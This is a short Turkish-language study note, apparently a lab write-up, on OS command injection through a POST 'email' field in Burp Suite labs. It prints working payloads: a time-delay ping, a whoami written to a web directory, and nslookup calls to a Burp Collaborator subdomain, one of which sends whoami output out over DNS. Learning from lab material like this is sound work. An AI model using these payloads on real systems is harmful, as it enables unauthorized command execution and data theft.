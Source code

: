 Sayfa içerisinde veya Burp Suite üzerinde gönderilen POST isteklerinde komut çalıştırma işlemleridir.

#### TEMEL OLARAK:

![[Pasted image 20250316144314.png]]

![[Pasted image 20250316144323.png]]

#### Tabi bu işlerin de ilerlemiş versiyonları mevcuttur.

##### email=x||ping+-c+10+127.0.0.1||      şeklinde bir payload ile time-delay olursa da command injection olduğunu anlarız.

#### İşlerin biraz daha zor hâlini düşünelim.

### email=||whoami>/var/www/images/output.txt||
şeklinde bir payload gönderiyoruz. 
Bir submit gönderme kısmında:
![[Pasted image 20250316145108.png]]

/var/www/images/ kısmını bize labın ipucu kısmında açıklama kısmında bize vermişlerdi.
Yani bize sayfada gösterilen dosyalar bu dizin içerisinde mevcut. Biz de istediğimiz bilgiyi o dosyanın içerisine gönderdik.

### Biraz Daha Zor Düşünürsek:
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
şeklindeki payload'ımız var. Collaborator üzerinde linki yapıştırıp gönderince 
![[Pasted image 20250316145707.png]]

Bu şekilde lab çözülmüş olur.

### SON LAB OLARAK DA:
`||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||`

şeklinde payload'ımız var.  Buraya collaborator'den aldığımız linki yapıştırdıktan sonra DNS sonuçları kısmında cevabı görüyoruz.

